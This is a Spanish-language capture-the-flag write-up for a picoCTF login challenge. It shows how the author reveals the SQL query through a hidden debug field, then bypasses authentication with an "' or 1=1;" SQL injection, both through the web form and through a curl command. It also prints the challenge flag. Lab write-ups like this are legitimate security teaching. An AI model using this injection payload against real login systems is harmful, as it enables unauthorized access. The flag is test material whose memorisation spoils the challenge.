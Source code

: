 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
## Solución 1
- Entramos a la pagina y nos dirigimos al login de la pagina.
- Inspeccionamos la pagina.
- Descubrimos que había un campo invisible para el usuario, así que modificamos el tipo para que sea visible y cambiamos su valor por 1.
```bash
<input type="hidden" name="debug" value="0">
<input name="debug" value="1">
```
- Cuando intentamos ingresar nos muestra tanto los datos de nuestro registro como la sentencia SQL que utiliza.
```bash
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```
- Al saber que tipo de sentencia utiliza nos regresamos al formulario y modificamos el registro para que nos logre ingresar y así nos muestra la bandera.
```bash
username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```
## Solución 2
```bash
armandoPC-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=' or 1=1;&password=admin"
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>armandoPC-picoctf@webshell:~$ 
```
## Notas Adicionales
## Referencias
